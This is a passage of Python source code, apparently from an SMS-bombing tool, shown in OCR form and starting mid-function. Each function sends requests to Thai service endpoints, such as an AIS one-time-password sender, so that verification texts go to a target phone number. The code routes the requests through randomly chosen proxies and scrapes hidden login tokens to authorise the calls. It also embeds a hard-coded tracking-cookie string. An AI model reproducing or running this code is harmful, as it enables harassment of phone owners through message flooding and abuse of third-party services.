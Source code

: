           "_gcl_au=1.1.628507904.1657519113;_cbclose=1;_cbclose26068=1;_uid26068=51BC4E60.1;_ctout26068=1;verify=test;_ga=GA1.2.682897436.1657519114;_gid=GA1.2.1721036016.1657519114;_gat_UA-86733131-1=1;_fbp=fb.1.1657519114976.1588263006;afUserId=64e5ba75-c9e2-4e45-aa62-7f5318ec6d9c-p;AF_SYNC=1657519116965;_ga_R05PJC3ZG8=GS1.1.1657519113.1.1.1657519130.43;OptanonAlertBoxClosed=2022-07-11T05:58:54.186Z;OptanonConsent=isIABGlobal=false&datestamp=Mon+Jul+11+2022+12%3A58%3A54+GMT%2B0700+(%E0%B9%80%E0%B8%A7%E0%B8%A5%E0%B8%B2%E0%B8%AD%E0%B8%B4%E0%B8%99%E0%B9%82%E0%B8%94%E0%B8%88%E0%B8%B5%E0%B8%99)&version=6.13.0&hosts=&landingPath=NotLandingPage&groups=C0001%3A1%2CC0002%3A1%2CC0003%3A1%2CC0004%3A1%2CC0005%3A1"
      },
      json={
          "msisdn": phone,
          "function": "enroll"
      },
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )


def api16(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  session = Session()
  ReqTOKEN = session.get(
      "https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated",
      headers={
          "User-Agent":
          "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"
      }).text
  r = session.post(
      "https://srfng.ais.co.th/login/sendOneTimePW",
      data=
      f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",
      headers={
          "User-Agent":
          "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",
          "Content-Type":
          "application/x-www-form-urlencoded; charset=UTF-8",
          "authorization":
          f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''
      },
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )
